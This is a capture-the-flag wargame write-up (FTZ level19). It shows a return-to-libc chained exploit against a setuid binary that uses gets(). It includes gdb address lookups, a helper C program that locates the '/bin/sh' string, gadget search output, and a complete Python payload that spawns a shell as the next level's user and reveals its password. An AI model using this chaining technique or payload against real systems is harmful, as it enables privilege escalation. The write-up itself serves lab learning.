 # Level19

## This level's goal
- Chaining return to lib

***

```
[level19@ftz level19]$ ls -l
-rwsr-x---    1 level20  level19     13615 Mar  8  2003 attackme
-rw-r-----    1 root     level19        65 Mar  8  2003 hint

[level19@ftz level19]$ cat hint

main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

```
[level19@ftz level19]$ gdb -q attackme
(gdb) disass main
0x08048443 <main+3>:    sub    esp,0x28
```

0x28 means 40bytes, so then 40bytes + SFO(4bytes) + RET(4bytes)

```
[level19@ftz level19]$ cp attackme tmp/
[level19@ftz level19]$ gdb -q tmp/attackme
(gdb) b *main
(gdb) run
Starting program: /home/level19/tmp/attackme

(gdb) p system
$1 = {<text variable, no debug info>} 0x4203f2c0 <system>

(gdb) p setreuid
$2 = {<text variable, no debug info>} 0x420d7920 <setreuid>
```

As above, I could get the system's and setreuid's address.

```
[level19@ftz tmp]$ cat getsh.c
#include <stdio.h>
int main()
{
        long shell = 0x4203f2c0;
        while ( memcmp((void*) shell, "/bin/sh", 8) )
        {
                shell++;
        }
        printf("0x%x\n", shell);
        return 0;
}
[level19@ftz tmp]$ gcc getsh.c -o getsh
[level19@ftz tmp]$ ./getsh
0x42127ea4
```

Now, I got /bin/sh's adress in system() function.

And then I need to get setreuid's argvs.

```
[level19@ftz tmp]$ cat /etc/passwd | grep level20
level20:x:3100:3100::/home/level20:/bin/bash
```

Level20's uid is 3100 means 0x0000C1C(HEX).

```
[level19@ftz tmp]$ objdump -d attackme | egrep 'pop|ret'
 80482d3:       c3                      ret
 8048342:       5e                      pop    %esi
 804836e:       5b                      pop    %ebx
 8048385:       c3                      ret
 80483eb:       5d                      pop    %ebp
 80483ec:       c3                      ret
 80483f8:       5d                      pop    %ebp
 80483f9:       c3                      ret
 8048426:       5d                      pop    %ebp
 8048427:       c3                      ret
 8048438:       5d                      pop    %ebp
 8048439:       c3                      ret
 804846a:       c3                      ret
 804849c:       58                      pop    %eax
 804849d:       5b                      pop    %ebx
 804849e:       5d                      pop    %ebp
 804849f:       c3                      ret
 80484a8:       5d                      pop    %ebp
 80484a9:       c3                      ret
 80484ba:       5b                      pop    %ebx
 80484cd:       c3                      ret
```

For the chaining method, PPR's address(pop-pop-ret) is 804849d.

As a result, the attack code will be 44 bytes dummy stirngs + setreuid address + PPR address + ruid + euid + system address + dummy(4bytes) + /bin/sh address.
setreuid address = 0x420d7920   
PPR address = 0x804849d   
ruid and euid = 0x0000C1C
system address = 0x4203f2c0
/bin/sh address = 0x42127ea4

```
[level19@ftz level19]$ (python -c 'print "A"*44+"\x20\x79\x0d\x42"+"\x9d\x84\x04\x08"+"\x1c\x0c\x00\x00"+"\x1c\x0c\x00\x00"+"\xc0\xf2\x03\x42"+"A"*4+"\xa4\x7e\x12\x42"'; cat) | ./attackme

id
uid=3100(level20) gid=3099(level19) groups=3099(level19)

my-pass
Level20 Password is "we are just regular guys".
```
